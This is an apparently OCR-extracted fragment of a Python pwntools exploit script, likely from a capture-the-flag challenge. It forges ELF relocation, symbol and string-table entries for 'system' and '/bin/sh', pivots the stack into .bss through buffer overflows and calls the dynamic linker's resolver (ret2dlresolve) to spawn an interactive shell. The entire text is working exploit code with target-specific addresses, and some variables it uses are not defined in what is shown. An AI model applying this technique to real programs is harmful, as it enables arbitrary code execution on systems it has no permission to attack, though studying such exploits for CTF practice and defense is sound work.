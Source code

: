 ```python=
st_name = p32(st_name)
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
st_size = p64(0)
symtab_fake = st_name + st_info + st_other + st_shndx + st_value + st_size
print(hex(u32(st_name)))

#Build fake strtab
strtab_fake = b"system\0\0"

#Sum
fake = rela_fake + p64(0) + p64(0) + symtab_fake + strtab_fake + b'/bin/sh\0'
##########################################################################################

ofs = 104
vuln = 0x401192
main = 0x4011b8
bss = 0x404df0
resolver = 0x401020

#Pivoting to the bss 
p1 = b'a'*(ofs-8) + p64(bss+0x50) + p64(vuln+4)
sl(p1)

#Set up the frame
p2 = b'b'*0x10
p2 += fake
p2 = p2.ljust((ofs-8),b'b') 
p2 += p64(0x404e50+0x60) + p64(vuln+4)
sl(p2)

#Call resolver
p3 = b'c'*(ofs)
p3 += p64(resolver) 
p3 += p64(relo_arg)
sl(p3)

p.interactive()
```